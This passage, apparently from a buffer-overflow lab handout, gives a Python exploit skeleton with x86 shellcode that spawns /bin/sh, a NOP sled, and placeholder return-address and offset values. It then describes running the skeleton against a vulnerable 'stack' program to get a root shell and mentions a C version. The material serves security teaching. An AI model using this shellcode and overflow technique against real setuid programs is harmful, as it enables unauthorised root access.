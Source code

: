 \begin{lstlisting}
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0"    # xor   eax, eax
  "\x50"        # push  eax
  "\x68""//sh"  # push  0x68732f2f
  "\x68""/bin"  # push  0x6e69622f
  "\x89\xe3"    # mov   ebx, esp
  "\x50"        # push  eax
  "\x53"        # push  ebx
  "\x89\xe1"    # mov   ecx, esp
  "\x31\xd2"    # xor   edx, edx 
  "\x31\xc0"    # xor   eax, eax 
  "\xb0\x0b"    # mov   al, 0x0b
  "\xcd\x80"    # int   0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

#########################################################################
ret    = 0xAABBCCDD   # replace 0xAABBCCDD with the correct value
offset = 0            # replace 0 with the correct value

# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#########################################################################

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$./exploit.py     // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}
 

\paragraph{C version.}
The C version of the exploit code is called 
\texttt{"exploit.c"}. Its code is to construct contents 
for \texttt{badfile}. In this code, the shellcode is given to you. 
You need to develop the rest. 


